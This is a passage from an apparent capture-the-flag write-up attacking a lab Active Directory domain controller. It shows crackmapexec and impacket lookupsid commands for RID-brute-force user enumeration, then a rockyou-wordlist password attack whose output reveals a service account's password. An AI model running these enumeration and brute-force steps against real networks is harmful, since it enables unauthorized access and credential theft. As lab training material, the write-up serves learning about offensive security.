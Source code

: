 ```
SMB         10.10.71.35     445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:ustoun.local) (signing:True) (SMBv1:False)
SMB         10.10.71.35     445    DC               [+] ustoun.local\guest: 
SMB         10.10.71.35     445    DC               [+] Brute forcing RIDs
SMB         10.10.71.35     445    DC               498: DC01\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.71.35     445    DC               500: DC01\Administrator (SidTypeUser)
SMB         10.10.71.35     445    DC               501: DC01\Guest (SidTypeUser)
SMB         10.10.71.35     445    DC               502: DC01\krbtgt (SidTypeUser)
SMB         10.10.71.35     445    DC               512: DC01\Domain Admins (SidTypeGroup)
SMB         10.10.71.35     445    DC               513: DC01\Domain Users (SidTypeGroup)
SMB         10.10.71.35     445    DC               514: DC01\Domain Guests (SidTypeGroup)
SMB         10.10.71.35     445    DC               515: DC01\Domain Computers (SidTypeGroup)
SMB         10.10.71.35     445    DC               516: DC01\Domain Controllers (SidTypeGroup)
SMB         10.10.71.35     445    DC               517: DC01\Cert Publishers (SidTypeAlias)
SMB         10.10.71.35     445    DC               518: DC01\Schema Admins (SidTypeGroup)
SMB         10.10.71.35     445    DC               519: DC01\Enterprise Admins (SidTypeGroup)
SMB         10.10.71.35     445    DC               520: DC01\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.71.35     445    DC               521: DC01\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.71.35     445    DC               522: DC01\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.71.35     445    DC               525: DC01\Protected Users (SidTypeGroup)
SMB         10.10.71.35     445    DC               526: DC01\Key Admins (SidTypeGroup)
SMB         10.10.71.35     445    DC               527: DC01\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.71.35     445    DC               553: DC01\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.71.35     445    DC               571: DC01\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.71.35     445    DC               572: DC01\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.71.35     445    DC               1000: DC01\DC$ (SidTypeUser)
SMB         10.10.71.35     445    DC               1101: DC01\DnsAdmins (SidTypeAlias)
SMB         10.10.71.35     445    DC               1102: DC01\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.71.35     445    DC               1112: DC01\SVC-Kerb (SidTypeUser)
SMB         10.10.71.35     445    DC               1114: DC01\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
```

Or we can look up using impacket's `lookupsid.py`. 

`python3 /usr/share/doc/python3-impacket/examples/lookupsid.py guest@$IP` which gives the sam result as above.

From the result we can find 3 users `krbtgt`, `SVC-Kerb`, `DC$`. Let's save them as a file and run crackmapexec to find creds.

crackmapexec smb dc.ustoun.local -u users.txt -p /usr/share/wordlists/rockyou.txt 

```
SMB         10.10.71.35     445    DC               [+] ustoun.local\SVC-Kerb:superman 
```

We can't enter into anything using these creds. Let's again use impacket.
